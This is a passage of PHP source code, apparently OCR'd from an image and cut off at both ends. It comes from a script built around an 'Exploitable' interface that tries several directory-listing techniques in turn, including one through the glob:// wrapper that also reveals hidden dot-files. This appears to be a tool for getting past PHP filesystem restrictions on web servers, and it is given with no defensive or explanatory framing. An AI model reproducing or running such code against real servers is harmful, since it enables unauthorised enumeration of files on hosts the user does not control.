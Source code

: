 ```php
				$relPath[0] = './' . $relPath[0];
			}
		}
	}
	return implode('/', $relPath);
}
 
function fallback($classes) {
	foreach ($classes as $class) {
		$object = new $class;
		if ($object->isAvailable()) {
			return $object;
		}
	}
	return new NoExploit;
}
 
// Core classes
interface Exploitable {
	function isAvailable();
	function getDescription();
}
 
class NoExploit implements Exploitable {
	function isAvailable() {
		return true;
	}
	function getDescription() {
		return 'No exploit is available.';
	}
}
 
abstract class DirectoryLister implements Exploitable {
	var $currentPath;
 
	function isAvailable() {}
	function getDescription() {}
	function getFileList() {}
	function setCurrentPath($currentPath) {
		$this->currentPath = $currentPath;
	}
	function getCurrentPath() {
		return $this->currentPath;
	}
}
 
class GlobWrapperDirectoryLister extends DirectoryLister {
	function isAvailable() {
		return stripos(PHP_OS, 'win') === FALSE && in_array('glob', stream_get_wrappers());
	}
	function getDescription() {
		return 'Directory listing via glob pattern';
	}
	function getFileList() {
		$file_list = array();
		// normal files
		$it = new DirectoryIterator("glob://{$this->getCurrentPath()}*");
		foreach ($it as $f) {
			$file_list[] = $f->__toString();
		}
		// special files (starting with a dot(.))
		$it = new DirectoryIterator("glob://{$this->getCurrentPath()}.*");
		foreach ($it as $f) {
```